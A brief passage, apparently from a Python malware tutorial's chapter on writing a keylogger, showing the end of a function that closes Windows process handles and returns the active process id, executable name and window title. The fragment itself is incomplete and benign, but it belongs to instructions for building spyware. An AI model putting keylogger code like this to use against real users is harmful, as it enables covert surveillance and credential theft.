

Python Malwares (cont.)
Writing a Keylogger (cont.)
Once we extract the info of the process, we will close its handle and return its values:
def get_current_process():
    ...
    kernel32.CloseHandle(hwnd)
    kernel32.CloseHandle(h_process)
    return process_id, executable.value.decode("utf-8", "replace"), window_title.value.decode("utf-8", "replace")
137